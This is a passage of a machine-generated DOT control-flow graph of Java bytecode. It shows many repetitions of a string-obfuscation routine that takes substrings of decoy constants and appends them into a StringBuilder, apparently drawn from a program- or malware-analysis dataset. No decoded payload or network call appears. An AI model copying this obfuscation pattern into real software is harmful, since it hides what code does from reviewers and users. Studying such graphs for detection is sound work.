    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lA661pq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lA661pq\"";
    "push \"lA661pq\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Eff22e6WF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Eff22e6WF\"";
    "push \"Eff22e6WF\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kuc61mU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kuc61mU\"";
    "push \"kuc61mU\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uln6e6Bv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uln6e6Bv\"";
    "push \"uln6e6Bv\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0f7222a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0f7222a\"";
    "push \"0f7222a\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tAe5JW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tAe5JW\"";
    "push \"tAe5JW\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aD379KYt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aD379KYt\"";
    "push \"aD379KYt\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Wb73U0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Wb73U0\"";
    "push \"Wb73U0\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3E746TwA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3E746TwA\"";
    "push \"3E746TwA\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"H656ZR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"H656ZR\"";
    "push \"H656ZR\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"R0d2eGQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"R0d2eGQ\"";
    "push \"R0d2eGQ\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AfQ736WsW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AfQ736WsW\"";
    "push \"AfQ736WsW\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8J57V7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8J57V7\"";
    "push \"8J57V7\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pF454U\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pF454U\"";
    "push \"pF454U\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4dsp3652PzV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4dsp3652PzV\"";
    "push \"4dsp3652PzV\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ly637wS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ly637wS\"";
    "push \"Ly637wS\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ew572AM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ew572AM\"";
    "push \"Ew572AM\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aS693A\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aS693A\"";
    "push \"aS693A\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1k574wd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1k574wd\"";
    "push \"1k574wd\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ulty7944Wk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ulty7944Wk\"";
    "push \"Ulty7944Wk\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"bbqd6qG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"bbqd6qG\"";
    "push \"bbqd6qG\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pD216egd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pD216egd\"";
    "push \"pD216egd\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Fm61Wf\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Fm61Wf\"";
    "push \"Fm61Wf\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4EBY676l6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4EBY676l6\"";
    "push \"4EBY676l6\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Lb572kK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Lb572kK\"";
    "push \"Lb572kK\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8KQ286lN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8KQ286lN\"";
    "push \"8KQ286lN\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7Re7yS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7Re7yS\"";
    "push \"7Re7yS\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Kfq56gPz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Kfq56gPz\"";
    "push \"Kfq56gPz\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7Mc6eP1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7Mc6eP1\"";
    "push \"7Mc6eP1\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"anac29cc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"anac29cc\"";
    "push \"anac29cc\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kMEC3bBSs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kMEC3bBSs\"";
    "push \"kMEC3bBSs\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Qk7dDA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Qk7dDA\"";
    "push \"Qk7dDA\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gy636RN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gy636RN\"";
    "push \"gy636RN\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"CzaSR17Mh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"CzaSR17Mh\"";
    "push \"CzaSR17Mh\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Nl463jwvK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Nl463jwvK\"";
    "push \"Nl463jwvK\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mbp68Hcc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mbp68Hcc\"";
    "push \"mbp68Hcc\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0q2863ELh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0q2863ELh\"";
    "push \"0q2863ELh\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Bt52AH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Bt52AH\"";
    "push \"Bt52AH\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sr97bAT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sr97bAT\"";
    "push \"sr97bAT\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PK7d3lm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PK7d3lm\"";
    "push \"PK7d3lm\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WrJb69Mb2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WrJb69Mb2\"";
    "push \"WrJb69Mb2\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yS22b27j\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yS22b27j\"";
    "push \"yS22b27j\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1kEb3bTZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1kEb3bTZ\"";
    "push \"1kEb3bTZ\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z67d3u2hG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z67d3u2hG\"";
    "push \"Z67d3u2hG\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"F1b69TN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"F1b69TN\"";
    "push \"F1b69TN\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mYrPz662AWnH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mYrPz662AWnH\"";
    "push \"mYrPz662AWnH\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YU82v4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YU82v4\"";
    "push \"YU82v4\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7g16aDm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7g16aDm\"";
    "push \"7g16aDm\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JA85617rg4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JA85617rg4\"";
    "push \"JA85617rg4\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"P3k7660J\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"P3k7660J\"";
    "push \"P3k7660J\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Cs12erB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Cs12erB\"";
    "push \"Cs12erB\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5yzfr6cyYA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5yzfr6cyYA\"";
    "push \"5yzfr6cyYA\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8au61AS2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8au61AS2\"";
    "push \"8au61AS2\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"SM6eNnt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"SM6eNnt\"";
    "push \"SM6eNnt\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nE67lb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nE67lb\"";
    "push \"nE67lb\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"y42ehm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"y42ehm\"";
    "push \"y42ehm\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tn53Nd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tn53Nd\"";
    "push \"tn53Nd\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ck797WE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ck797WE\"";
    "push \"Ck797WE\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mt37414W25\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mt37414W25\"";
    "push \"mt37414W25\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EC656ek\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EC656ek\"";
    "push \"EC656ek\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"J8d2ZZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"J8d2ZZ\"";
    "push \"J8d2ZZ\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gLe67Ya\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gLe67Ya\"";
    "push \"gLe67Ya\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gH7653Y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gH7653Y\"";
    "push \"gH7653Y\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1Fd74z2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1Fd74z2\"";
    "push \"1Fd74z2\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1Actt530rA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1Actt530rA\"";
    "push \"1Actt530rA\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"l88K656RK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"l88K656RK\"";
    "push \"l88K656RK\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lZ375tT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lZ375tT\"";
    "push \"lZ375tT\""->"push 2";
    "push 2"->"push 5";
